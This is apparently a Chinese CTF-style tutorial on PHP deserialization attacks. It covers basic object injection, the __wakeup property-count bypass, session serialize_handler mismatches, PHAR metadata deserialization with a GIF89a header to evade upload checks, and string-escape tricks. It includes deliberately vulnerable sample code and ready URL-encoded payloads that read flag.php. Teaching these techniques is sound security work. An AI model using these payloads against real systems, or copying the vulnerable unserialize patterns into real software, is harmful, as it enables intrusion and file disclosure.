

## 最简单的反序列化

```php
<?php
	require_once('flag.php');
	highlight_file(__FILE__);
	class A{
		private $user = 'test';

		function __destruct(){
			if ($this->user == 'admin') {
				var_dump($GLOBALS);
			}
		}
	}

	$data = $_GET['data'];
	unserialize($data);
```

当我们反序列化后 `user`为 `admin`时输出 `$GLOBALS`，输出当前 `php`页面全局变量

我们构造 `payload`如下

```php
<?php
    class A{
        private $user = 'admin';
    }

    echo urlencode(serialize(new A()));
```

运行获得 `url`编码 `序列化`后的值为 `O%3A1%3A%22A%22%3A1%3A%7Bs%3A7%3A%22%00A%00user%22%3Bs%3A5%3A%22admin%22%3B%7D`

将其赋值给 `data`后即可输出 `全局变量`



## __wakeup绕过

在反反序列化时，如果 `表示对象属性个数的值`大于 `真实的属性个数时`就会跳过 `__wakeup( )`的执行。

影响版本

`php5.0.0 ~ php5.6.25`

`php7.0.0 ~ php7.0.10`

`php`源码

```php
<?php
	highlight_file(__FILE__);
	class A{
		private $filename = 'test.txt';

		public function __wakeup() {
			$this->filename = 'test.txt';
		}
	
		public function __destruct() {
			echo file_get_contents($this->filename);
		}
	
	}

	$data = $_GET['data'];
	unserialize($data);
```

`php`语言的特性为在反序列化时，先执行 `__wakeup()`魔术方法，才会执行 `__destruct()`魔术方法

也就是说当我们使用 `payload`

```php
<?php
    class A{
        private $filename = 'flag.php';
    }

    echo urlencode(serialize(new A()));
```

`O%3A1%3A%22A%22%3A1%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

去反序列化时

结果为


可以发现我们在反序列化时修改的 `$filename`的值在 `__wakeup()`函数时由 `flag.php`修改为了 `test.txt`

绕过 `__wakeup()`函数时将 `对象属性个数的值`大于 `真实的属性个数时`即可绕过

即 `O%3A1%3A%22A%22%3A1%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

改为，只需要将对象个数大于 `1`即可，`2`，`3`，`4`等等都行，这里我使用 `2`

`O%3A1%3A%22A%22%3A2%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

即可获取想要的文件的内容


## private protect变量构造

如最开始

在构造 `payload`时

将所得的 `payload`进行 `url编码`即可

## Session反序列化漏洞

`PHP`中的 `Session`经序列化后存储，读取时再进行反序列化。

相关配置：

`session.save_path=""` //设置session的存储路径

`session.save_handler=""` //设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)

`session.auto_start boolen` //指定会话模块是否在请求开始时启动一个会话 `默认为0不启动`

`session.serialize_handler string` //定义用来序列化/反序列化的处理器名字。默认使用 `php`

`PHP`有 `3`种序列化处理器

|    处理器    |                         对应的存储格式                         |
| :-----------: | :------------------------------------------------------------: |
|      php      |         键名+竖线（\|）+经过serialize()函数处理过的值         |
|  php_binary  | 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值 |
| php_serialize | 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化 |

代码

```php
<?php

	session_start();

	$_SESSION['test'] = $_REQUEST['test'];
	echo session_id();
```

执行后可以看到


命名方式为 `sess_session_id()`

存储内容为序列化后的 `session`:`test|s:4:"test";`

不同处理器的格式不同，当不同页面使用了不同的处理器时，由于处理的 `session`序列化格式不同，就可能产生反序列化漏洞

因为 `index.php`与 `session.php`采用的序列化处理器不同，我们可以构造“误导”处理器，达到漏洞利用的目的

也就是说将数据通过 `session.php`序列化后将数据存入的文件与 `index.php`反序列化获取反序列化值的文件相同

从而达到反序列化攻击的目的

`index.php`

```php
<?php
	ini_set('session.serialize_handler', 'php');

	session_start();

	class A {
		public $user = 'test.txt';

		function __wakeup() {
			echo "__wakeup<br/>";
		}

		function __destruct() {
			echo $this->filename;
		}
	}
```

`generate.php`

```php
<?php
    class A{
        public $filename = 'flag.php';
    }

    echo serialize(new A);
```

`session.php`

```php
<?php
	ini_set('session.serialize_handler', 'php_serialize');

	session_start();

	$_SESSION['test'] = $_REQUEST['test'];
	echo session_id();
```

首先通过 `generate.php`构造 `payload`

```
O:1:"A":1:{s:8:"filename";s:8:"flag.php";}
```

将 `O:1:"A":1:{s:8:"filename";s:8:"flag.php";}`前面加一个 `|`

即可将反序列化的值存入到 `session`中使 `index.php`反序列化


即可完成 `session反序列化`攻击


## PHAR利用

### 1、PHAR简介

PHAR ("PHp ARchive")是PHP里类似于JAR的一种打包文件，在PHP5.3或更高版本默认开启，这个特性使得PHP也可以像Java一样方便地实现应用程序打包和组件化，一个应用程序可以打成一个PHAR包，直接方法PHP-FPM中运行

### 2、PHAR文件结构

PHAR文件由3或4个部分组成

(1) `stub`	`//phar文件头`

`stub`就是一个简单的 `php`文件，最简文件头为：

```php
<?php __HALF_COMPILER(); ?>
```

文件头中必须包含 `__HALF_COMPILER()`除此之外没有限制。（PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测）

(2)`manifest describing the contents`  //PHAR文件描述该部分存储文件名、文件大小等信息，如下图所示


图中标出的地方，存储了经 `serialize()`的 `Meta-data`，有序列化过程必有反序列化过程，这就是我们的注入点

(3) `the file contents`

PHAR文件内容

(4) [optional] `a signature for verifying Phar integrity (phar file format only)` // 可选的签名部分， 支持MD5和SHA1


### 攻击方法

`2018`年 `Black Hat`研究院Sam Thomas的议题：

It’s a PHP unserialization vulnerability Jim, but not as we know it提供了一种新的php反序列化攻击姿势。PHAR文件的Meta-data可以是任何能够序列化的PHP对象，当PHAR文件被任何文件系统函数首次通过phar://协议解析时Meta-data部分会被反序列化，这个反序列化过程就是我们的攻击点，`Meta-data`部分填充 `payload`。

漏洞利用条件：

在目标系统上投放一个装在payload的可访问的PHAR文件，通过文件系统函数利用phar://伪协议解析目标PHAR文件。

注意：要将 `php.ini`中的 `phar.readonly`选项设置为 `off`，否则无法生成 `phar`文件

`testPhar.php`

```php
<?php

	class A {
	}
	$phar = new Phar('phar.phar');	//后缀名必须为phar
	$phar->startBuffering();
	$phar->setStub("<?php __HALT_COMPILER(); ?>");	//设置stub
	$o = new A();
	$o->data = 'cmacckk';
	$phar->setMetadata($o);		// 将自定义的meta-data存入manifest
	$phar->addFromString('test.txt', 'test');	// 添加要压缩的文件
	// 签名自动计算
	$phar->stopBuffering();

?>
```

可以从箭头中看到序列化后结果


箭头标出 `Meta-data`部分，可以看到为序列化后结果

`index.php`

```php
<?php
  
    class A {
	function __destruct() {
		echo "<br>destruct called";
	}
}

$filename = "phar://phar.phar/test.txt";
echo file_get_contents($filename);
```


可以看到输出了之前打包的 `phar`文件中,`test.txt`文件的内容 `test`，并成功实例化 `A`对象，调用了析构函数 `(__destruct)`

由于 `PHP`仅通过 `stub`部分判断文件是否为 `PHAR`文件，我们可以通过添加文件头、修改后缀的方式绕过上传检测

```php
<?php

	class A {
	}
	$phar = new Phar('phar.phar');	//后缀名必须为phar
	$phar->startBuffering();
	$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");	//设置stub，增加gif文件头绕过
	$o = new A();
	$phar->setMetadata($o);		// 将自定义的meta-data存入manifest
	$phar->addFromString('test.txt', 'test');	// 添加要压缩的文件
	// 签名自动计算
	$phar->stopBuffering();

?>
```

## PHP反序列化字符串逃逸(变长)

示例代码

```php
<?php

	highlight_file(__FILE__);
	require_once('flag.php');
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'admin';
		public $pass = '123456';
	}

	$c = unserialize(waf(serialize(new A())));
	if ($c->pass === 'admin') {
		echo $flag;
	} else {
		echo "no no no";
	}
```

在代码中，当 `$pass`为 `admin`时，才会输出 `flag`

在这里有一个函数 `waf`

`waf`函数会将 `bb`变为 `ccc`

即 `bb`会变为 `ccc`，在这个过程中反序列化时便会少读取一个字符

使用 `test.php`查看当前序列化结果

```php
<?php
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'admin';
		public $pass = '123456';
	}

	$c = (serialize(new A()));
	echo $c;
```


我们要让红线部分的数据修改为 `admin`，在代码里修改

```php
<?php
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'admin';
		public $pass = 'admin';
	}

	$c = (serialize(new A()));
	echo $c;
```


所以我们要逃逸的字符串为 `";s:4:"pass";s:5:"admin";}`


按照一个 `bb`转变为 `ccc`会逃逸 `1`个字符，如果我们要逃逸 `26`个字符，那么我们需要 `26`个 `bb`


所以生成的 `name`值为 `bbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}`

生成 `payload`

```php
<?php

	highlight_file(__FILE__);
	require_once('flag.php');
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}';
		public $pass = '123456';
	}

	echo "<br>serialize a:<br>" . serialize(new A()) . "<br>";
	echo "waf serialize a:<br>" . waf(serialize(new A())) . "<br>";
	$c = unserialize(waf(serialize(new A())));
	if ($c->pass === 'admin') {
		echo $flag;
	} else {
		echo "no no no";
	}
```


可以看到在经过 `waf`函数后，逃逸后的反序列化长度符合，可以正常反序列化，反序列化 `}`前的值

最终改变了 `$pass`的值获取 `flag`

## PHP反序列化字符串逃逸(变短)

```php
<?php

	require_once('flag.php');
	highlight_file(__FILE__);
	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = $_GET['name'];
	$test['sign'] = $_GET['sign'];
	$test['year'] = '2021';


	$tmp = waf(serialize($test));
	echo "<br>" . $tmp . "<br>";

	$result = unserialize($tmp);
	echo $result['year'];
	if ($result['year'] === '2100') {
		echo $flag;
	}
```

### 第一步

首先我们要明确要逃逸的字符串

在这里要时 `year`为 `2100`，所以我们构造 `payload`

```php
<?php

	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = 'cmacckk';
	$test['sign'] = 'test';
	$test['year'] = '2100';

	echo serialize($test) . "     ";
	$tmp = waf(serialize($test));
	echo $tmp;
```

我们需要逃逸这个部分


### 第二步

我们需要在这个字符串之前添加一个字符或字符串

这里我添加一个 `C`

将 `sign`的值改为 `"C;s:4:"sign";s:4:"test";s:4:"year";s:4:"2100";}`

```php
<?php

	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = 'cmacckk';
	$test['sign'] = 'C";s:4:"sign";s:4:"test";s:4:"year";s:4:"2100";}';
	$test['year'] = '2100';

	echo serialize($test);
```

运行


### 第三步

查看 `";s:4:"sign";s:48:"C`的长度


发现长度为 `20`

在这里的 `waf`函数中，将 `ctf`或 `flag`替换为 `''`，所以一个ctf能逃逸 `3`个字符，一个flag能逃逸 `4`个字符

我们需要逃逸 `20`个字符

则仅需要 `5`个 `flag`即可


最终传值结果为


参考https://www.cnblogs.com/ichunqiu/p/10484832.html
